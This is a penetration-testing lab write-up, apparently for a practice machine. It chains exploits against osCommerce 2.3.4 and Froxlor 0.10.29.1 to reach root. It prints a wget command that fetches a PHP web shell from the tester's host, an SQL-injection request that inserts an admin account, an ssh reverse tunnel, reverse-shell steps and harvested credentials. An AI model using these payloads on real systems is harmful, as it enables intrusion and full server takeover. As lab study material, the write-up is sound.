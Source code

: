 ### ++ Approach ++
#### Credentials
	* flybike:Christopher (user in froxlor)

#### Services
	##### 60001 HTTP
		In /docs we find release_notes.pdf file where we found webapp oscommerce version 2.3.4

### ++ Vulnerabilities ++

#### Vuln 1: RCE in oscommerce 2.3.4 ++
	* https://www.exploit-db.com/exploits/50128
	* We abuse RCE and place a php shell by using a python server:
		Cmd: "wget http://192.168.45.245/p0wny.php -O ../../p0wny.php"
		Shell: http://milan:60001/catalog/p0wny.php

#### Vuln 2: RCE in froxlor 0.10.29.1 ++
	* https://www.exploit-db.com/exploits/50502
	* With the following request we create an admin user:
		POST /customer_mysql.php?s=84e97a8c8fa9eafb092871223091f2bb HTTP/1.1
		[...SNIP...]

		s=84e97a8c8fa9eafb092871223091f2bb&page=mysqls&action=add&send=send&custom_suffix=`%3binsert+into+panel_admins+(loginname,password,customers_see_all,domains_see_all,caneditphpsettings,change_serversettings)+values+('testing','$5$gqlmiUswzVgtRBwk$JV0RLv89CvFgXPXN4F78dUFjjicf9DfQW8jnrxrQko2',1,1,1,1)%3b--&description=testing&mysql_password=Christopher&mysql_password_suggestion=sarah&sendinfomail=0&sendinfomail=1

### ++ System Interaction ++
#### Foothold  
	* Abusing vuln 1 we got a shell as www-data

#### Privilege Escalation 
	* In /var/www/html/oscommerce/catalog/admin/includes/configure.php we found credentials for mysql db. With oscuser we just found a non-crackable admin hash but connecting with the same password as root, we found froxlor db with hashes in panel_customers table.
		Sarah: flybike:Christopher
	* We discover an open port in 60002 but we cannot access from outside, so we use port redirect from the server with "ssh -R *:60002:localhost:60002 kali@192.168.45.245" (before we have to enable ssh in kali "sudo systemctl start ssh")
	* In localhost:60002 we find froxlor and we can access with flybike:Christopher
	* In directory /var/www/html/froxlor/install/updates/froxlor we can find that we have 0.10 version and we found it vulnerable to this exploit (https://www.exploit-db.com/exploits/50502)
	* Abuse vuln 2 and get a admin user, move pentestmonkey php rev shell and execute it to get a shell as root (cron job runs every 5 minute, so don't get too impatient)
	
#### Post-exploitation 
	* 
